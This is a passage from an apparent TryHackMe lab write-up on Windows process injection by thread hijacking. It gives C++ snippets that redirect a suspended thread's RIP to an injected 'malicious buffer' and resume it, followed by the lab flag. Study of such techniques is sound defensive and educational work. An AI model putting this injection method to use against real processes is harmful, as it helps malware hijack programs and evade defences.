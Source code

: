 ```cpp
CONTEXT context;
GetThreadContext(
	hThread, // Handle for the thread 
	&context // Pointer to store the context structure
);
```

At step eight, we need to overwrite RIP (Instruction Pointer Register) to point to our malicious region of memory. If you are not already familiar with CPU registers, RIP is an x64 register that will determine the next code instruction; in a nutshell, it controls the flow of an application in memory. To overwrite the register we can update the thread context for RIP.

```cpp
context.Rip = (DWORD_PTR)remoteBuffer; // Points RIP to our malicious buffer allocation
```

At step nine, the context is updated and needs to be updated to the current thread context. This can be easily done using `SetThreadContext` and the pointer for the context.

```cpp
SetThreadContext(
	hThread, // Handle for the thread 
	&context // Pointer to the context structure
);
```

At the final step, we can now take the target thread out of a suspended state. To accomplish this we can use `ResumeThread`.

```cpp
ResumeThread(
	hThread // Handle for the thread
);
```

We can compile these steps together to create a process injector via thread hijacking. Use the C++ injector provided and experiment with thread hijacking.

## Question
---

![[Pasted image 20250519121101.png]]

Let's use another PID:

![[Pasted image 20250519121540.png]]



```
THM{1nj3c710n_15_fun!}
```

# Abusing DLLs
---
